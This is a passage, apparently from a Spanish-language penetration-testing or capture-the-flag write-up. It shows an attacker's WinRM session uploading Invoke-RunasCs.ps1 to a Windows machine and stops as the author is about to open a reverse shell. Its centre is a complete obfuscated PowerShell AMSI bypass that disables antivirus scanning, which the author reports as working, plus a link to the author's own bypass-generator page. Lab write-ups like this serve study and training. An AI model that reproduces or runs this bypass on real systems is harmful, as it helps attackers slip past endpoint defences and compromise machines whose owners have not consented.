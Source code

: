 ```
Info: Uploading /home/kali/Desktop/Invoke-RunasCs.ps1 to C:\Users\nica\Desktop\Invoke-RunasCs.ps1
                                        
Data: 117712 bytes of 117712 bytes copied
                                        
Info: Upload successful!
```

Ahora vamos a importarlo para despues poder ejecutarlo de la siguiente forma:

```powershell
Import-Module ./Invoke-RunasCs.ps1
```

Pero esto tambien me lo esta bloqueando el `antivirus`, por lo que os dejo una pagina que yo he creado para `Bypassear` dicho antivirus de `Windows` realizando un `Bypass` en el modulo `AMSI` que contiene las firmas de dichos `malwares`, no saldra a la primera, pero me llevo unos 30 minutos hasta que consegui uno que funcionada de los codigos que genera de forma aleatoria, os dejo el que utilice:

URL = [Bypass Modulo AMSI Pagina](https://d1se0.github.io/AMSI-Bypass-Generator/index.html)

```powershell
$JmRIgg7pbjB=$null;$J5xhHEldAdGmGsdjV=[System.Runtime.InteropServices.Marshal]::AllocHGlobal((9076+6814-6814));$kdiojlldvsqhsvfjwl="+[ChAr](104+62-62)+[cHAR]([bYte]0x75)";[Threading.Thread]::Sleep(457);[Ref].Assembly.GetType("System.$([CHAr]([byTE]0x4d)+[chAr](24+73)+[cHAr](44+66)+[Char](97+66-66)+[chaR]([BYte]0x67)+[CHAR]([bYtE]0x65)+[cHAr](109+62-62)+[cHaR]([BYTe]0x65)+[cHaR]([ByTe]0x6e)+[cHar]([bYtE]0x74)).$([chaR]([bYTe]0x41)+[CHAR]([BYTe]0x75)+[CHar](116)+[chAr]([BYTE]0x6f)+[CHaR](78+31)+[chAr]([byTE]0x61)+[CHar]([Byte]0x74)+[char](6+99)+[Char](111)+[Char](110*74/74)).$([CHaR]([byte]0x41)+[char](5+104)+[ChaR]([bytE]0x73)+[chAR](105*63/63)+[cHaR](85*29/29)+[CHAR](80+36)+[CHaR](52+53)+[chAR]([BYTe]0x6c)+[ChaR](115*74/74))").GetField("$([ChaR]([bYTe]0x61)+[CHAR](109*65/65)+[Char]([byte]0x73)+[ChaR](105)+[cHar]([bYte]0x53)+[cHar]([byTE]0x65)+[ChaR](115*4/4)+[chaR](115+11-11)+[chAR](105*5/5)+[chAr](111*9/9)+[char]([byte]0x6e))", "NonPublic,Static").SetValue($JmRIgg7pbjB, $JmRIgg7pbjB);[Ref].Assembly.GetType("System.$([CHAr]([byTE]0x4d)+[chAr](24+73)+[cHAr](44+66)+[Char](97+66-66)+[chaR]([BYte]0x67)+[CHAR]([bYtE]0x65)+[cHAr](109+62-62)+[cHaR]([BYTe]0x65)+[cHaR]([ByTe]0x6e)+[cHar]([bYtE]0x74)).$([chaR]([bYTe]0x41)+[CHAR]([BYTe]0x75)+[CHar](116)+[chAr]([BYTE]0x6f)+[CHaR](78+31)+[chAr]([byTE]0x61)+[CHar]([Byte]0x74)+[char](6+99)+[Char](111)+[Char](110*74/74)).$([CHaR]([byte]0x41)+[char](5+104)+[ChaR]([bytE]0x73)+[chAR](105*63/63)+[cHaR](85*29/29)+[CHAR](80+36)+[CHaR](52+53)+[chAR]([BYTe]0x6c)+[ChaR](115*74/74))").GetField("$([CHAr]([BytE]0x61)+[cHar]([BytE]0x6d)+[cHaR]([BYte]0x73)+[cHaR](105)+[cHaR](67+51-51)+[cHaR](111+56-56)+[cHar]([bytE]0x6e)+[cHar]([byTe]0x74)+[ChAR](101*11/11)+[char]([bytE]0x78)+[cHar]([bYte]0x74))", "NonPublic,Static").SetValue($JmRIgg7pbjB, [IntPtr]$J5xhHEldAdGmGsdjV);$ilpowzzhhv="+('cmmîqxácìqmjzvkècmswìf'+'st').NORmaLIzE([cHar](70)+[char](111)+[cHaR](114*77/77)+[char](109+12-12)+[Char](68*1/1)) -replace [CHAR]([ByTE]0x5c)+[chaR]([ByTe]0x70)+[char]([bYTe]0x7b)+[cHAR]([ByTe]0x4d)+[cHaR]([ByTe]0x6e)+[CHAr]([bYtE]0x7d)";[Threading.Thread]::Sleep(1044)
```

Cuando enviemos esto mediante la terminal de `WinRM` si no nos aparece ningun error y ningun bloqueo significa que se ejecuto de forma correcta, por lo que ahora mismo el antivirus no va a mirar las firmas de los archivos que ejecutemos, por lo que si volvemos a realizar el siguiente comando:

```powershell
Import-Module ./Invoke-RunasCs.ps1
```

Ahora si nos dejara, no nos aparecera ningun error ni nada parecido, vamos a generarnos una `reverse shell` con dicho `script`.
